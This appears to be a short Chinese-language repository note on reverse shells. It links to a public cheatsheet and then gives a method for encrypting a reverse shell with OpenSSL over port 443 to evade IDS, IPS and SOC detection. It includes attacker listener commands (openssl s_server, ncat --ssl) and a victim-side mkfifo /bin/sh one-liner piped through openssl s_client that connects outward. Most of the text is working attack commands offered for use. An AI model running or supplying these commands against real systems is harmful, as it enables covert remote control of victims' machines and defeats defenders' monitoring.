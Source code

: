 

### 反弹shell的各种方法

适用于不同系统(windows/linux) 不同语言环境(python/node/Java/Golang...)

直接参考 [PayloadsAllTheThings/Reverse Shell Cheatsheet.md](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#bash-tcp)

⚠️因为没有使用加密通信 所以各防御系统(IDS/IPS/SOC...)能够从通信流量中获取明文传输的通信数据(命令字符串)!

### 加密通信 - 使用OpenSSL实现加密通信

使用加密通信，能够避免"通信数据"被轻易检测

因为SSL/TLS加密通信流量常见于443端口,所以建议使用443端口进行通信(避免在不常见端口使用 导致告警)

```shell
# hacker
# 开启监听 2个方法 任选其一:

# 方法1
hacker@kali$ openssl req -x509 -newkey rsa:4096 -keyout key.pem -out cert.pem -days 365 -nodes
hacker@kali$ openssl s_server -quiet -key key.pem -cert cert.pem -port 443

# 方法2
hacker@kali$ ncat --ssl -vv -l -p 443

Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Generating a temporary 2048-bit RSA key. Use --ssl-key and --ssl-cert to use a permanent one.
Ncat: SHA-1 fingerprint: 1CDB C287 FA7E 0EB0 CBC9 3F8C 42C9 CA52 48DE 9484
Ncat: Listening on :::443
Ncat: Listening on 0.0.0.0:443
```

```
# victim
# victim主动外连
user@company$ mkfifo /tmp/s; /bin/sh -i < /tmp/s 2>&1 | openssl s_client -quiet -connect 127.0.0.1:443 > /tmp/s; rm /tmp/s
```
